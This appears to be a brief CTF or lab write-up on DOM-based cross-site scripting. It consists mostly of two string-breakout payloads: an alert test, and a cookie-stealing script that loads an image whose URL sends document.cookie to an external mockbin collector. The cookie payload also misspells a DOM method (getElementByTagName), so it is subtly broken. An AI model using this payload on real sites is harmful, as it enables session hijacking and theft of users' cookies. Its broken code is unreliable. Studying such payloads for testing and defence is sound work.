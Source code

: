 # XSS DOM based

## Initial attempt

Achieve XSS through a relatively simple payloa

```javascript
';alert(1); var s='
```

## Admin's cookie

```javascript
'; var i = document.createElement('img'); i.src='https://b5e02d613ca44b7384e0290125a1448e.api.mockbin.io/?cookie=' + document.cookie; document.getElementByTagName('p')[0].appendChild(i); var s='
```
